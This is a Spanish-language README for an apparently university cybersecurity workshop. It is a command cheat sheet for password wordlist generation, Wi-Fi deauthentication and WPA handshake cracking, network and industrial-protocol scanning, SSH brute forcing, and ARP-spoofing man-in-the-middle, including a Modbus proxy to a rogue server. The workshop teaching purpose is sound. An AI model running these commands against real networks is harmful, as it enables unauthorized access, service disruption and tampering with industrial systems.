 # udg-taller-ciberseguridad

## Presentaciones
[Dia 01](/presentaciones/Presentación_dia_01.pdf)
[Dia 02](/presentaciones/Presentación_dia_02.pdf)

## Creando diccionarios
### CEWL
```bash
cewl --min_word_length 4 --write ./passwords.txt --email -v <target>
```
### Wister
```bash
python3 -m venv venv
source venv/bin/active
pip install whister

wister -l #list types

wister -c 1 2 3 4 5 -w <w1> <w2> -o ./passwords_02.txt # merge words
wister -c 3 5 -i passwords.txt -o ./passwords_02.txt # merge file and low combinations
wister -c 1 2 3 4 5 -i passwords.txt -o ./passwords_02.txt # merge file
```


## Atacando redes wifi
```bash

sudo airmon-ng start wlp2s0 # monitor
iwconfig # wifi info

sudo airodump-ng wlp2s0mon ## Scan 2Ghz
sudo airodump-ng wlp2s0mon --essid=<ssid>  ## Scan 2Ghz and filter by regex 
sudo airodump-ng wlp2s0mon --essid-regex=<ssid> --band a ### Scan 5Ghz

## Monitor and capture a handshake
sudo airodump-ng wlp2s0mon -c <channel> --bssid <bssid> -w psk.pcap --output-format pcap 

## Send generic deauth packets, may not work in all scenarios
sudo aireplay-ng -0 0 -a <bssid> wlp2s0mon # broadcast
sudo aireplay-ng -0 0 -a <bssid> -c <client-mac> wlp2s0mon # to 1 client

## Cracking
aircrack-ng -w ./creds.txt --bssid=<bssid> ./psk.pcap-0*

sudo airmon-ng check kill ## stop

```

## Encontrando dispositivos en la red
```bash
netdiscover -i wlp2s0 -r 192.168.1.0/24
netdiscover -i wlp2s0 -p
sudo arp-scan -I wlp2s0 --localnet
```

## Explorando en la red
```bash
nmap -p 502,4840,80,443,8080,8443,1880 -T5 --open 192.168.1.0/24
nmap --script enip-info -sU -p 44818 <ip> # EtherNet/IP
```

## Atques de fuerza bruta
```bash
hydra -l root -P ./passwords.txt ssh://<ip>
```


## MITM
```bash
sudo bettercap -iface wlan0
sudo bettercap -iface wlan0 -caplet http-ui
```

| Orden | Descripción |
|-------|---------|
| net.show | Mostrar información sobre la red |
| net.probe on | Iniciar escaneo de host en la red |
| net.recon on | Leer periódicamente la tabla ARP del sistema para detectar nuevos hosts en la red. |
| set arp.spoof.targets 10.10.10.100,10.10.10.200 | Establecer un objetivo en la red | 
| set arp.spoof.internal true | Las conexiones locales entre ordenadores de la red también serán falsificadas, de lo contrario solo se falsificarán las conexiones que vayan hacia y desde la red externa. |
| arp.spoof on| Iniciar arp spoofing |
| arp.ban on | ARP spoofing en modo de prohibición, lo que significa que la conectividad del objetivo no funcionará. | 


### Modbus transparent proxy
```bash
set tcp.address 10.10.10.200
set tcp.port 502
set tcp.tunnel.address 127.0.0.1
set tcp.tunnel.port 502
tcp.proxy on
```

> Recuerda, tienes que correr un proxy modbus en local para que funcione `python3 modbus/rogue_server.py`